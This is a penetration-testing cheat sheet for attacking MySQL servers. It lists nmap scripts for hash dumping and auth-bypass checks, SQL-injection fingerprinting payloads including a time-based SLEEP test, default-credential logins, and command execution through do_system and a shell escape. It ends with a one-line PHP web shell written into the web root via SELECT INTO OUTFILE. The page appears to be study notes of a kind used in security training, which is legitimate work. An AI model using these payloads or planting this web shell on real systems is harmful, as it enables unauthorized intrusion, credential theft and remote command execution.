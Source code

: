 # MySQL \[3306]

### Nmap

```
nmap -sV -Pn -vv --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <ip> -p 3306 ​ 
nmap -sV -Pn -vv --script=mysql* <ip> -p 3306 
```

### Fingerprinting

<table><thead><tr><th width="140">Payload</th><th width="182">When to Use</th><th>Expected Output</th><th>Wrong Output</th></tr></thead><tbody><tr><td><code>SELECT @@version</code></td><td>When we have full query output</td><td>MySQL Version 'i.e. <code>10.3.22-MariaDB-1ubuntu1</code>'</td><td>In MSSQL it returns MSSQL version. Error with other DBMS.</td></tr><tr><td><code>SELECT POW(1,1)</code></td><td>When we only have numeric output</td><td><code>1</code></td><td>Error with other DBMS</td></tr><tr><td><code>SELECT SLEEP(5)</code></td><td>Blind/No Output</td><td>Delays page response for 5 seconds and returns <code>0</code>.</td><td>Will not delay response with other DBMS</td></tr></tbody></table>

### Local Access

if you gain access to target box and see mysql running , you can try to connect with it from target locally

```
mysql -u root 
# Connect to root without password

mysql -u root -p 
# A password will be asked
# Always test root:root credential

```

### Remote Access

```
mysql -h <Hostname> -u root

mysql -h <Hostname> -u root@localhost

mysql -u julio -pPassword123 -h 10.129.20.13
mysql -h 142.93.47.151 -P 32568 -u root -ppassword
# MySQL - Connecting to the SQL Server

sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
# sqsh is alternative for myslq but in Linux

mssqlclient.py -p 1433 julio@10.129.203.7
# Impacket script for linux
```

> Specify the domain name or the hostname to use Windows Authentication. For local account use `SERVERNAME\\accountname` or `.\\accountname`&#x20;

### If running as root <a href="#if-running-as-root" id="if-running-as-root"></a>

If Mysql is running as root and you have acces, you can run commands:

```
mysql> select do_system('id');

mysql> \! sh
```

### Exploring database

<table><thead><tr><th width="322">Commands</th><th>Description</th></tr></thead><tbody><tr><td><code>show databases;</code></td><td>List all the databases.</td></tr><tr><td><code>use &#x3C;database>;</code></td><td>select the database from available databases.</td></tr><tr><td><code>show tables;</code></td><td>List all the tables.</td></tr><tr><td><code>describe &#x3C;table>;</code></td><td>To see what the structure of a table</td></tr><tr><td><code>SELECT &#x3C;column1>, &#x3C;column2> FROM &#x3C;table>;</code></td><td>print out all the vlaues from the table and columns specified.</td></tr><tr><td><code>SELECT * FROM &#x3C;table> WHERE &#x3C;column> = "&#x3C;str>";</code></td><td>list contents where search item is located.</td></tr><tr><td><code>SELECT * FROM logins WHERE username LIKE 'admin%';</code></td><td><code>%</code> matches all characters after <code>admin</code><br><code>_</code> match exactly one character</td></tr><tr><td><code>CREATE DATABASE users;</code></td><td>Creates database</td></tr><tr><td><code>INSERT INTO logins VALUES(1, 'admin', 'p@ssw0rd', '2020-07-02');</code></td><td>add new records to a given table</td></tr><tr><td><code>DROP TABLE logins;</code></td><td>remove tables and databases</td></tr><tr><td><code>SELECT * FROM logins ORDER BY password;</code></td><td>sort the results of any query and specifying the column to sort by</td></tr><tr><td><code>SELECT * FROM logins LIMIT 2;</code></td><td><a href="https://dev.mysql.com/doc/refman/8.0/en/limit-optimization.html">LIMIT</a> the results to what we want</td></tr><tr><td><code>SELECT * FROM logins LIMIT 1, 2;</code></td><td>LIMIT with offset (start from 2nd(1) stop at 3rd(2))</td></tr></tbody></table>

[CVE-2012-2122](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/vulnerability/2383/mysql-database-authentication-bypass)

`MySQL` default system schemas/databases:

* `mysql` - is the system database that contains tables that store information required by the MySQL server
* `information_schema` - provides access to database metadata
* `performance_schema` - is a feature for monitoring MySQL Server execution at a low level
* `sys` - a set of objects that helps DBAs and developers interpret data collected by the Performance Schema

## Command execution

`MySQL` doesn't have `xp_cmdshell` but we can write a code and find a way to execute it instead (ASP.NET, PHP)

**MySQL - Write Local File**

```shell-session
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
